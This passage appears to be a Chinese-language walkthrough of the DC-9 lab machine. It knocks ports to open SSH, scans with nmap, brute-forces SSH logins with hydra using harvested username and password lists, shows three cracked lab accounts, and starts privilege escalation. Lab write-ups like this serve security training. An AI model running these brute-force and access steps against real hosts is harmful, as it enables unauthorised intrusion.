     
    分析一下配置文件：依次使用`TCP`访问`7469,8475,9842` 后（不超过25秒），则执行`[openSSH]` 区块的`command` ，用于允许来源IP（`%IP%`）的TCP连接通过22端口（SSH端口）
    
3. 分析完后，接下来就是进行敲门
    - 使用`Kocked` 命令敲门
        
        ```python
        knock 192.168.75.180 7469 8475 9842
        ```
        
    - 然后再使用`nmap`扫描看看
        
        ```python
        nmap -sT -min-rate 10000 -p- 192.168.75.180
        Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-04 14:09 CST
        Nmap scan report for 192.168.75.180
        Host is up (0.00040s latency).
        Not shown: 65533 closed tcp ports (conn-refused)
        PORT   STATE SERVICE
        22/tcp open  ssh
        80/tcp open  http
        MAC Address: 00:0C:29:41:E1:8F (VMware)
        ```
        
        这下`SSH`端口就打开了
        

## 爆破SSH

1. 将`UserDetails`表的`username`和`password`字段分别保存
    
    ```python
    hydra -L username -P password -vV -e ns 192.168.75.180 ssh
    ```
    
    爆破出个三用户的账号密码
    
    ```python
    [22][ssh] host: 192.168.75.180   login: janitor   password: Ilovepeepee
    [22][ssh] host: 192.168.75.180   login: chandlerb   password: UrAG0D!
    [22][ssh] host: 192.168.75.180   login: joeyt   password: Passw0rd
    ```
    

## 提权

1. janitor
    
    ```python
    janitor@dc-9:~$ whoami
    janitor                                                                                                                                                                                                           
    janitor@dc-9:~$ id                                                                                                                                                                                                
    uid=1016(janitor) gid=1016(janitor) groups=1016(janitor)                                                                                                                                                          
    janitor@dc-9:~$ uname -a
    Linux dc-9 4.19.0-6-amd64 #1 SMP Debian 4.19.67-2+deb10u2 (2019-11-11) x86_64 GNU/Linux   
    ```
    